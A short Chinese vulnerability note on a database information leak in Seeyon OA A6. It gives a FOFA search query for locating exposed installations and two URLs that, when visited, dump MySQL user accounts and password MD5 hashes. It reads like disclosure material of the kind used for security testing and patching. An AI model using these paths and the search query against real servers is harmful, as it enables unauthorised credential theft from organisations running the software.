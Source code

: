 # 致远OA A6 createMysql.jsp 数据库敏感信息泄露

## 漏洞描述

致远OA A6 存在数据库敏感信息泄露，攻击者可以通过访问特定的URL获取数据库账户以及密码 MD5

## 漏洞影响

<a-checkbox checked>致远OA A6</a-checkbox></br>

## FOFA 

<a-checkbox checked>title="致远A8+协同管理软件.A6"</a-checkbox></br>

## 漏洞复现

当访问如下URL时执行了SQL语句 `select  *from mysql.user;` 进行查询并返回到页面中

```plain
/yyoa/createMysql.jsp
/yyoa/ext/createMysql.jsp
```

![img](../../../.vuepress/public/img/1645629877032-94a29b56-2632-4bff-8fbc-75dac6ab2ae6.png)



![img](../../../.vuepress/public/img/1645629883438-65aaa8f2-5d16-48a7-a92b-a5e37a737f71.png)